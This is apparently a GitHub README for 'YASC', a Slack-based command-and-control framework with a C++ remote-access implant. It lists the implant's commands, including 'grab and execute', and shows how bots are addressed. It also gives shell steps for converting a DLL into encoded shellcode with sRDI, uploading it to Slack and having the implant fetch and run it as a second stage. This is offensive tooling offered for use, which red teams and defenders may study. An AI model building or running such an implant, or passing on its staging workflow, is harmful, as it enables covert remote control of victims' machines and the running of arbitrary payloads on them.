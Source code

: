 
# YASC

Yet Another Slack C2

## Credits

Some of the supporting code was borrowed from the POCO library. The comments were stripped from all code, which removed the licensing from the files. Should probably put that back.

JSON library credit to https://github.com/nlohmann/json

## Build

### Requirements

If you wish to package a file for execution, you will need sRDI: `git clone https://github.com/monoxgas/sRDI.git`

- Visual Studios 2019

### HOWTO

Create yasc\clients\cpp\cpp\slack_auth.txt

with contents (no spaces, no quotes, no endline):
```
STR(<oauth token>)
```

e.g. STR(abcd-123456)

It should build out of the box. Just build the cpp project.

## Controlling

All of the commands currently implemented are in rat.cpp:get_tasking()

```
if (todo._Starts_with("gtfo"))
else if (todo._Starts_with("who am i"))
else if (todo._Starts_with("be quiet"))
else if (todo._Starts_with("start talking"))
else if (todo._Starts_with("talk every "))
else if (todo._Starts_with("grab and execute "))
```

To talk to a specific bot: Hey \<GUID\>, \<command\> \<parameters\>

e.g.: Hey IPxxzxcevaIT, gtfo

One day we will move those out and just pass the `todo` line to another function that will process them based on a defined yaml file that is shared between all clients and the controller... One day.

To have it load a second stage:

```
> cd sRDI\Python
sRDI\Python> py ConvertToShellcode.py <path_to_dll>
# That created <path_to_dll>.bin

sRDI\Python> cd ..\..\controller
yasc\controller> py gen_stage2.py <path_to_dll>.bin <path_to_dll>_encoded.bin
# <path_to_dll>_encoded.bin now contains "an encoded shellcode" 
# Upload to slack and "grab and execute" by an agent
```
